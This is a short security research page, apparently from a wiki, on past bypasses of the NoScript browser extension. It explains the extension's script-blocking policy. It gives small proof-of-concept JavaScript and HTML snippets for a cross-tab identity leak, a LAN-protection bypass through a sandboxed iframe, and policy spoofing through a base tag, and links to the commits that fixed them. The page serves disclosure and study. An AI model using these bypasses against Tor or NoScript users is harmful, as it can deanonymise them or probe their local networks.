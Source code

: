 ```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):
```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```
So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://issues.chromium.org/issues/40058593) or a PDF.

# Cross-tab Identity Leak Protection
Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.
```js
async function bypassFirefox(url) {
let win = open('about:blank');
await new Promise(resolve => setTimeout(resolve, 100));
win.location.reload();
await new Promise(resolve => setTimeout(resolve, 100));
win.location = url;
return win;
}
```
And later… [commit]( https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)
```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```
And later… (Requires two user interactions)
```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```
Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection
[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.
```js
let f = document.createElement('iframe');
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = 'allow-scripts';
document.body.appendChild(f);
```
This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing
document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag.  [commit](https://github.com/hackademix/noscript/commit/ee66b823210933ba80dd38acf122b4bab6bd7be1)
```html
<base href="https://www.example.com/">
```

